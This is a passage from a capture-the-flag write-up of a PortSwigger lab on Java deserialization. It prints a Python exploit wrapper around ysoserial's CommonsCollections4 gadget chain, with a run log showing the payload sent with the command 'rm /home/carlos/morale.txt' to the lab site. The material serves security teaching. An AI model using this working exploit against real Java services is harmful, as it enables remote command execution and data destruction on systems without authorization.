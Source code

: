 ```py
    parser.add_argument('-c', '--command', metavar='Command', help='The command you wanna execute. For example: \'rm /home/carlos/morale.txt\'', required=True)
    parser.add_argument('-u', '--url', metavar='Url', help='The full URL of the target website. For example: https://0a6d0005037e473ec06c22bc000300b7.web-security-academy.net/')

    return parser.parse_args()


def main():
    # Prepare arguments
    args = argumentParser()
    ysoserialJarPath = args.jar
    payload = args.payload
    command = args.command
    url = args.url     

    Exploit = exploit(ysoserialJarPath, payload, command)
    Exploit.checkJavaVersion()
    
    fullPayload = Exploit.generatePayload()

    while True:
        confirmInput = input('Do you want to send the payload to the target website? (y/n) ')

        if confirmInput.upper() == 'Y':
            Exploit.sendPayload(url, fullPayload)
            break
        elif confirmInput.upper() == 'N':
            print('[*] Bye!')
            break

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Insecure-Deserialization]
└─# python3 send_payload.py -j /opt/ysoserial/ysoserial-all.jar -p CommonsCollections4 -c 'rm /home/carlos/morale.txt' -u https://0a6d0005037e473ec06c22bc000300b7.web-security-academy.net/
[*] Checking Java version...
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[*] Java version is: 11.0.17
[+] This version works!
[*] Generating payload...
[*] Payload = CommonsCollections4, command = rm /home/carlos/morale.txt
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[*] Writing the generated payload to disk for later use...
Do you want to send the payload to the target website? (y/n) y
[*] Sending the payload...
[+] Payload has been sent.
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-5/images/Pasted%20image%2020230110092218.png)

It worked!

# What we've learned:

1. Exploiting Java deserialization with Apache Commons